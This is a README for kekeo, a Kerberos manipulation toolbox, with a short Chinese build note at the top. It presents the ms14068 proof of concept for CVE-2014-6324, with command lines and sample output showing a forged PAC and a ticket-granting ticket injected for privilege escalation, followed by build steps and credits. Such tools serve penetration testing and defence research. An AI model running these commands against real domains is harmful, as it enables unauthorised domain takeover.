 # 说明

不再需要下载 asn studio，可在 vs2013 上编译

# kekeo

**`kekeo`** is a little toolbox I have started to manipulate Microsoft Kerberos in C (and for fun)

## Tools

### ms14068

A little POC for Kerberos MS14-068 / CVE-2014-6324 (https://technet.microsoft.com/library/security/ms14-068.aspx) !

Quick example: `ms14068.exe /domain:vuln.local /user:utilisateur /password:waza1234/ /ptt`
```
[KDC] 'dc.vuln.local' will be the main server
[AUTH] Impersonation
[KDC] 1 server(s) in list
[SID/RID] 'utilisateur @ vuln.local' must be translated to SID/RID

user     : utilisateur
domain   : vuln.local
password : ***
sid      : S-1-5-21-2666969376-4225180350-4077551764
rid      : 1104
key      : cc36cf7a8514893efccd332446158b1a (rc4_hmac_nt)
ticket   : ** Pass The Ticket **
 [level 1] Reality       (AS-REQ)
 [level 2] Van Chase     (PAC TIME)
  * PAC generated
  * PAC """signed"""
 [level 3] The Hotel     (TGS-REQ)
 [level 4] Snow Fortress (TGS-REQ)
  * DC : [level 5] Limbo ! (KRB-CRED) :  * TGT successfully submitted for current session
Auto inject BREAKS on first Pass-the-ticket
```

Full : `ms14068.exe /domain:vuln.local /sid:S-1-5-21-2666969376-4225180350-4077551764 /user:utilisateur /rid:1104 /password:waza1234/ /aes256 /kdc:dc.vuln.local /ticket:utilisateur_admin.kirbi`

```
user     : utilisateur
domain   : vuln.local
password : ***
sid      : S-1-5-21-2666969376-4225180350-4077551764
rid      : 1104
key      : e1c656c9d790509c3058203284591a240c2098ae6a71e7565e73162d6b3ee669 (aes256_hmac)
ticket   : utilisateur_admin.kirbi
kdc      : dc.vuln.local

 [level 1] Reality       (AS-REQ)
 [level 2] Van Chase     (PAC TIME)
  * PAC generated
  * PAC """signed"""
 [level 3] The Hotel     (TGS-REQ)
 [level 4] Snow Fortress (TGS-REQ)
 [level 5] Limbo         (KRB-CRED)
  * TGT in file 'utilisateur_admin.kirbi'
```

### aoratopw

### kirbikator

## ASN.1 library

In `kekeo`, I use an external commercial library to deal with Kerberos ASN.1 structures: **OSS ASN.1/C** (http://www.oss.com/asn1/products/asn1-c/asn1-c.html)  
It was the **only** code generator/library that I've found to work easily with Microsoft C project.
  * works without a lots of dependencies;
  * magical documentation;
  * wonderful support for my stupid questions;
  * had a binary that work only few hours after started my project...

They were kind enough to offer me a 1-year licence.  
With this one, I'm able to let you download binaries that run in your environment.  
So don't forget to thank them ( http://www.oss.com/company/contact-us.html / https://twitter.com/OSSNokalva )

### Limitations
  * Binaries will work until March 16, 2016 (yeah, 1 year licence ;));
  * You must buy a licence from **OSS ASN.1/C** (_or download a trial version_) to build `kekeo` solution/adapt it.
    * http://www.oss.com/asn1/products/asn1-c/asn1-c.html
    * When you register for a free trial, don't forget to refer me in the description field ;) (`kekeo` or `gentilkiwi`)

### Building `kekeo` with ASN.1/C
You **can't** build `kekeo` out-of-the-box, you'have to generate C files and link with OSS libraries.  

After downloading a commercial/trial version of **OSS ASN.1/C**:
  1. Open `($kekeo)\modules\kull_m_kerberos_asn1.a1sproj` in **ASN.1 Studio**, and generate files with `Project/Compile` (or F7)
    * It will create `($kekeo)\modules\kull_m_kerberos_asn1.c` and `($kekeo)\modules\kull_m_kerberos_asn1.h`
  2. Copy from **OSS ASN.1/C** install dir (eg: `C:\Program Files (x86)\OSS Nokalva\ossasn1\win32\10.1.0\`)
    * `include\ossasn1.h` to `($kekeo)\inc\`
    * `include\osstype.h` to `($kekeo)\inc\`
    * `lib\toedcode.lib`to `($kekeo)\lib\`
    * `lib\ossiphlp.lib`to `($kekeo)\lib\`

You can now build the `kekeo` solution in **Visual Studio**

## Licence
CC BY-NC-SA 4.0 licence - https://creativecommons.org/licenses/by-nc-sa/4.0/

## Acknowledgements
  * Tom Maddock - Qualcomm - @ubernerdom - MS14-068 - https://www.qualcomm.com/
  * Sylvain Monn? - Solucom - @BiDOrD - Author of `PyKek` - https://github.com/bidord/pykek
  * Tal Be'ery - Aorato / Microsoft - @TalBeerySec - http://www.aorato.com/blog/active-directory-vulnerability-disclosure-weak-encryption-enables-attacker-change-victims-password-without-logged/
  * Grace Sigona - OSS - @OSSNokalva - http://www.oss.com/

## Author
Benjamin DELPY `gentilkiwi`, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!
